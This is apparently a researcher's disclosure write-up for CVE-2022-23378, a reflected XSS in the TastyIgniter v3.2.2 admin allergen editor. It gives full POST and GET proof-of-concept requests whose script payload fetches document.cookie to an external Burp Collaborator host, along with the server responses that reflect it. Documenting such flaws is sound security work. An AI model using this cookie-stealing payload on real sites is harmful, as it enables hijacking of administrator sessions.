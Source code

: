# CVE-2022-23378 : Reflected XSS in TastyIgniter v3.2.2 Restaurtant CMS

Authenticated reflected XSS exists in the TastyIgniter Admin dashboard in version v3.2.2.

Mitre URL: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-23378

NIST URL: https://nvd.nist.gov/vuln/detail/CVE-2022-23378

## Proof of Concept (POC):

### Admin Dashboard Allergens:

**Affected URL:** `/admin/allergens/edit/1?items%5B0%5D%5Bpath%5D=%2fdoesnotexist%3cscript%3efetch('https%3a%2f%2fvgfx3ortri1x8mjfw16ngmpq2h8awz.burpcollaborator.net'%2c%7bmethod%3a%20'POST'%2cmode%3a%20'no-cors'%2cbody%3adocument.cookie%7d)%3b%3c%2fscript%3e%20`

**Source code file affected:** `./vendor/league/flysystem/src/FileNotFoundException.php`

When updating an allergen within the administrator dashboard, an option to attach an image to the allergen is available. When attached, a POST request with parameters pertaining to data about the image is submitted. The parameter `items%5B0%5D%5Bpath%5D` is vulnerable to JavaScript injection, resulting in a potential vector for Cross-Site Scripting (XSS). When including the XSS payload, the server responds with an error message containing and executing the XSS payload. 

Original POST request with XSS payload:
```http
POST /admin/allergens/edit/1 HTTP/1.1
Host: <REDACTED>
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-IGNITER-REQUEST-HANDLER: formThumb::onAddAttachment
X-CSRF-TOKEN: Y----8<----C8n
X-Requested-With: XMLHttpRequest
Origin: http://<REDACTED>
Connection: close
Cookie: tastyigniter_session=ey----8<----n0%3D; admin_auth=ey----8<----0%3D; ti_activeFormSaveAction=%22close%22
Cache-Control: no-transform

items%5B0%5D%5Bname%5D=image.jpeg&items%5B0%5D%5Bpath%5D=%2fdoesnotexist%3cscript%3efetch('https%3a%2f%2fvgfx3ortri1x8mjfw16ngmpq2h8awz.burpcollaborator.net'%2c%7bmethod%3a%20'POST'%2cmode%3a%20'no-cors'%2cbody%3adocument.cookie%7d)%3b%3c%2fscript%3e%20&items%5B0%5D%5Bsize%5D=192&items%5B0%5D%5BlastModified%5D=1642193919&items%5B0%5D%5Btype%5D=file&items%5B0%5D%5BpublicUrl%5D=http%3A%2F%2F<REDACTED>%2Fassets%2Fmedia%2Fuploads%2Fimage.jpeg
```

![01_Original_POST](https://raw.githubusercontent.com/TheGetch/CVE-2022-23378/main/01_Original_POST.png)

Server Response:

```html
HTTP/1.1 500 Internal Server Error
Date: Fri, 14 Jan 2022 21:21:27 GMT
Server: Apache/2.4.38 (Debian)
Cache-Control: no-cache, private
Set-Cookie: tastyigniter_session=e----8<----In0%3D; expires=Fri, 14-Jan-2022 23:21:27 GMT; Max-Age=7200; path=/; httponly; samesite=lax
Content-Length: 183
Connection: close
Content-Type: text/html; charset=UTF-8

File not found at path: uploads/doesnotexist<script>fetch('https:/vgfx3ortri1x8mjfw16ngmpq2h8awz.burpcollaborator.net',{method: 'POST',mode: 'no-cors',body:document.cookie});</script>
```

Furthermore, the request can be changed to a GET request with the affected parameter included within the URL, further increasing the likelihood of success for an adversary to exploit on a phished victim. 

Modified GET request:

```http
GET /admin/allergens/edit/1?items%5B0%5D%5Bpath%5D=%2fdoesnotexist%3cscript%3efetch('https%3a%2f%2fvgfx3ortri1x8mjfw16ngmpq2h8awz.burpcollaborator.net'%2c%7bmethod%3a%20'POST'%2cmode%3a%20'no-cors'%2cbody%3adocument.cookie%7d)%3b%3c%2fscript%3e%20 HTTP/1.1
Host: <REDACTED>
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-IGNITER-REQUEST-HANDLER: formThumb::onAddAttachment
X-CSRF-TOKEN: Y----8<----C8n
X-Requested-With: XMLHttpRequest
Origin: http://<REDACTED>
Connection: close
Cookie: tastyigniter_session=ey----8<----n0%3D; admin_auth=ey----8<----0%3D; ti_activeFormSaveAction=%22close%22
Cache-Control: no-transform


```

![02_Modified_GET](https://raw.githubusercontent.com/TheGetch/CVE-2022-23378/main/02_Modified_GET.png)

Response remains the same:

```html
HTTP/1.1 500 Internal Server Error
Date: Fri, 14 Jan 2022 21:21:27 GMT
Server: Apache/2.4.38 (Debian)
Cache-Control: no-cache, private
Set-Cookie: tastyigniter_session=eyJpdiI6Ik16bUtDZUV6eEw3RzByeG1LTWNBdUE9PSIsInZhbHVlIjoiQUgrTkJ1b2tmMzlFenVDVFlZZ1FHa0d5eVVITUFvT0t0YS9vcklNaHRKMnJYQjYwUyt5S3EySVpLWkpCSzR0YkhTS283VHV4d21KRjhCeHBZQ2NXbGlVRFVBcm9jR1dZbVlsdGZEdzFGZzQwQ2VjVjN1VkZ6ZWh2NmRGZis5dFEiLCJtYWMiOiI3YWQ4ZTM0NzBkZWIyZTNmNmE2OWM3NmJkMWJkYzgwNWYzYzRkNjQ2NjY5OGU2NzhkNjY5YTRlMWNmOTFiMjY0IiwidGFnIjoiIn0%3D; expires=Fri, 14-Jan-2022 23:21:27 GMT; Max-Age=7200; path=/; httponly; samesite=lax
Content-Length: 183
Connection: close
Content-Type: text/html; charset=UTF-8

File not found at path: uploads/doesnotexist<script>fetch('https:/vgfx3ortri1x8mjfw16ngmpq2h8awz.burpcollaborator.net',{method: 'POST',mode: 'no-cors',body:document.cookie});</script>
```

![03_Server_Response](https://raw.githubusercontent.com/TheGetch/CVE-2022-23378/main/03_Server_Response.png)

**Collaborator Interaction:**

![04_Collaborator_Hit](https://raw.githubusercontent.com/TheGetch/CVE-2022-23378/main/04_Collaborator_Hit.png)

![05_Collaborator_Interaction](https://raw.githubusercontent.com/TheGetch/CVE-2022-23378/main/05_Collaborator_Interaction.png)


## Discovery
January 2022
- Eric Getchell - TheGetch
